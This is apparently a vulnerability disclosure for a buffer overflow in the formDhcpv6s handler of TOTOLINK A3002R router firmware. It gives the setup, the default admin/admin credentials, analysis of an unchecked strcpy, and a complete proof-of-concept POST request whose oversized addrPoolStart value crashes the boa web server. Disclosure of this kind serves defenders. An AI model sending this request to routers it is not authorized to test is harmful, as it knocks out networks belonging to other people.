




## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK A3002R firmware version ​**V4.0.0-B20230531.1404**. The vulnerability arises from the improper input validation of the `addrPoolStart` parameter in the formDhcpv6s interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: A3002R
- ​**Version**: V4.0.0-B20230531.1404

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d TOTOLINK ../FIRMWARE/TOTOLINK_A3002R_Ge_V4_0_0_B20230531_1404.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 



## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_00451dc8' is below:


- ​**FUN_0040f2b4** retrieves POST parameters.
- ​**strcpy()** is used without length checks, leading to a ​buffer overflow.

By analyze the code, parameter `enable_dhcpv6s` should be set.
In addition, if you want to trigger the vulnerability, the value on 0x180 should not be set as 0. By analysis, it's the value of parameter `wan_enable`.


### ​**Exploit Conditions**

 The attacker must send a POST request with:
- `wan_enable=1` (to enable function call).
- `enable_dhcpv6s=1` (to enable parameter processing)
- `addrPoolStart`=\<long malicious payload> (to overflow the buffer).

## **Proof of Concept (PoC)**

### ​**Exploit Request**
 we use burpsuite to capture a normal POST packet to obtain the sessionCheck parameter for authentication and modify the packet.

```http
POST /boafrm/formDhcpv6s HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1480
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/wlsecurity.htm?t=1744618117722

sessionCheck=a7636bc8f3c75953583f61b4beae8516&submit-url=%2Fwlsecurity&enable_dhcpv6s=1&wan_enable=1&addrPoolStart=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

After the request the `boa` process will crash.
